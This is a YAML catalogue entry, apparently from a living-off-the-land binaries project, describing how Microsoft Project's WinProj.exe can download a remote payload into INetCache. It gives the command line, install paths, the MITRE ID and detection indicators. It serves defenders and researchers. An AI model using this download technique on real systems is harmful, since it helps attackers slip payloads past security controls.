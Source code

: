 ```yaml
---
Name: WinProj.exe
Description: Microsoft Project Executable
Author: Avihay Eldad
Created: 2024-02-14
Commands:
  - Command: WinProj.exe {REMOTEURL}
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\WinProj.exe
  - Path: C:\Program Files\Microsoft Office\Office14\WinProj.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\WinProj.exe
  - Path: C:\Program Files\Microsoft Office\Office15\WinProj.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\WinProj.exe
  - Path: C:\Program Files\Microsoft Office\Office16\WinProj.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\Office14\WinProj.exe
  - Path: C:\Program Files\Microsoft Office\root\Office14\WinProj.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\Office15\WinProj.exe
  - Path: C:\Program Files\Microsoft Office\root\Office15\WinProj.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\Office16\WinProj.exe
  - Path: C:\Program Files\Microsoft Office\root\Office16\WinProj.exe
Detection:
  - IOC: URL on a WinProj command line
  - IOC: WinProj making unexpected network connections or DNS requests
Acknowledgement:
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

